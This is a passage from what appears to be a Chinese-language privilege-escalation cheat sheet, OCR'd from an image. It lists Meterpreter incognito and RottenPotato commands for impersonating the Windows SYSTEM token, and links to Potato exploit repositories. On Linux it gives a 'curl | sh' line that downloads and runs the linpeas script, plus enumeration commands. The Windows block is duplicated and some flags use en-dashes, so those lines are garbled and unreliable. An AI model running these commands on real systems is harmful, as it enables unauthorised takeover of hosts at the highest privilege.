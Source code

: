 ```shell
load incognito
list_token –u
upload /root/rottenpotato.exe .
execute -Hc -f rottenpotato.exe
impersonate_token "NT AUTHORITY\\SYSTEM"

RottenPotato：
将服务帐户本地提权至SYSTEM
load incognito
list_token –u
upload /root/rottenpotato.exe .
execute -Hc -f rottenpotato.exe
impersonate_token "NT AUTHORITY\\SYSTEM"
将SYSTEM token添加到impersonate user tokens下
```

> Origin Potato
> https://github.com/foxglovesec/Potato
> RottenPotato & JuicyPotato
> https://github.com/ohpe/juicy-potato
> RoguePotato
> https://github.com/antonioCoco/RoguePotato
> SweetPotato
> https://github.com/CCob/SweetPotato

Webshell下执行命令：

> https://github.com/uknowsec/SweetPotato
> https://github.com/uknowsec/getSystem

## Linux系统提权

### Linux提权信息收集

```bash
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
```

- 操作系统信息

  ```
  查看发行版本
  cat /etc/issue
  cat /etc/*-release
  lsb_release -a
  查看内核版本
  uname –a
  uname –mrs
  环境变量
  cat /etc/profile
  cat /etc/bashrc
  cat ~/.bash_profile
  cat ~/.bashrc
  cat ~/.bash_logout
  env
  set
  ```
